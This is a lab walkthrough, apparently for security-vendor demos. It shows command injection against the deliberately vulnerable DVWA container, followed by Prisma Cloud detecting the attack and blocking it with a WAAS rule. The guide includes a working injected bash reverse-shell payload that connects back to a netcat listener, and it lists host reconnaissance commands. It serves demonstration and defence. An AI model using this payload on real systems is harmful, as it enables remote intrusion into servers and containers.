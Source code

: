 ## Command Injection Demo with DVWA App

NOTE: Please do not attempt on the demo enviornment of this wiki. I've provided instructions on how to set-up this lab so attempts will not be made. Thank you. 

Requirements:
* Prisma Cloud Compute edition deployed; see Deployment Guide here: [Minikube Prisma Cloud Compute Partner VM Lab Deployment Instructions](Prisma_Cloud_Compute_Minikube_Lab.md)
* Container defender deployed in environment where you'll be runnning the DVWA app. 
* [Docker Installed](https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-20-04)
* Netcat installed (comes with ubuntu and many other linux distros) for macOS `brew install netcat`

### Intital Set-up

* Retrieve the DVWA webapp `docker pull vulnerables/web-dvwa`
* Tag the image you pull down `docker tag vulnerables/web-dvwa:latest dvwa:1`
* Create bridged docker network `docker network create --driver bridge dvwa-net`
* Run the container and map port 80 on the host machine to port 80 on the container. `docker run -dit -p 80:80 --name dvwa --network dvwa-net dvwa:1`
* Explain as you're running this in terminal that the important part of this command to understand is that `-p 80:80` maps the host machines port to the container port. This is important to highlight during your demonstration, because people often misunderstand how networking within a container works. We'll demonstrate how we can reverse shell into the container using a different port, from anywhere. 
* Open up a web browser and go to the dvwa app. `http://localhost/setup.php`
* reset the database then login in. username: `admin` password: `password`

### Run the exploit

* On the left hand side of the DVWA menu go to the command injection tab. 
* Explain what command injection is in this scenario. Ultimately, command injection is an attack where a malicious actor attempts to manipulate the user input so that code is executed on the shell of the container/server in a different way than the developer intended. 
* In the DVWA app, under the command injection section the developer's intention is for function to run a ping command 4 times on the ip address submitted by the user. 

### (Option 1) Locally from vm to laptop terminal ---easiest/recommended way

* To run the attack, open a terminal window on your local (not the VM) machine. Explain this is the attackers terminal. In terminal enter (linux devices) `nc -lvp 5678` (macOS) `netcat -lvp 5678`. This will open a listening port on port 5678. Nothing too exiting to see yet. 
* Then retrieve the Internal IP address of the local machine.
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_INTERNAL_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -lvp 5678` you should now have a reverse shell into the container. 

### (Option 2) Externally from vm to External EC2 Instance

* Create a ubuntu EC2 instance and assign it a public IP address. 
* On the EC2 dashboard page in the AWS Console write down the public IP address assigned to the instance.
* Edit the security group to allow inbound tcp communication over port 5678.
* SSH to EC2 
* `sudo nano /etc/hosts` add `0.0.0.0 localhost` to the top line of the hosts file. `ctl + x` then `y` then `enter`
* In terminal type `nc -l -p 5678`
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_EC2_PUBLIC_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -l -p 5678` you should now have a reverse shell into the container. 

### Show the implications of an attack like this

* Now you can demonstrate to your audience the difference between a vm and a container. 
* Because a container shares the same kernel as the host device it's running on an attacker can gain information which can used to gain further access into the network. 
* Run the command `whoami` to show that you're running as `www-app`. 
* `cd` through the web app and `ls` as you step through the directories to show the ability to perform directory traversal and see all the content of the web app. 
* Once you're at the root directory, run the following commands to reveal what information is being fed to the shared kernel. 
* `uname -a` provides the processor architecture, the system hostname and the version of the kernel running on the host machine. If you're able to determine that it's an vulnerable/unpatched kernel this information can be used to gain further access and information. 
* `cat /proc/cmdline` shows the kernel parameters passed during boot
* `cat /proc/cpuinfo` shows the type of processor the host machine is running, including the amount of CPUs present
* `cat /proc/version` provides information which pertains to the version of Linux kernel used in the host machine machines distro. 
* Link to linux kernel vulnerabilities from the CVE database [here](https://www.cvedetails.com/vulnerability-list/vendor_id-33/product_id-47/cvssscoremin-7/cvssscoremax-7.99/Linux-Linux-Kernel.html)

### See how Prisma Cloud Defenders responded to the incident. 

* Log into the Prisma Cloud Compute console
* Go to Monitor > Events > container audits
* There should be an incident reported as a reverse shell. 
* Click the event and then click forensic icon on the incident. 
* Show how the incident is tracked in near real time. 
* Scroll through the event details and show the commands you ran earlier with your reverse shell. 
* Point out that the IP Address of attacker was logged. This information could be very useful for incident response using Prisma Cloud Enterprise edition. (RQL Network from.....)


### Enable the WAAS to block this behavior

In the Prisma Compute Console:

* Step 1:(Enterprise Edition ONLY) Go to Prisma Console > Compute > Defend > WAAS
  * Step 1a:(Compute Edition) Go to Defend > WAAS
* Step 2: Click ‘Add Rule’
* Step 3: Rule Name: Command Injection Defense
* Step 4: Then click scope
* Step 5: Check boxes of all images that have dvwa in them.
  * Step 5a: If there are none, click 'Add Collection', type in a name, type in 'dvwa' in the image field, select the image(s), and click 'Save'
  * Step 5b: Ensure you have the 'dvwa' boxes checked and click 'Select collections'
* Step 6: Click ‘Add New App’
* Step 7: On the next pop-up click the ‘+ Add Endpoint’ 
* Step 8: Enter 80 for App port (internal port) then hit ‘Create’ 
* Step 9: Click the ‘App Firewall' tab and under OS Command Injection set it to Prevent. 
* Step 10: Click ‘Save’


### Attempt attack again. 

* Log out of the dvwa app and close your reverse shell session by typing `exit` in the "attackers" shell. 
* Attempt to do the attack again on the web app and you should see a blocked warning. Note that the IP address of the attacker is logged. 
* The event can be viewed under Monitor > Events > WAAS for containers.
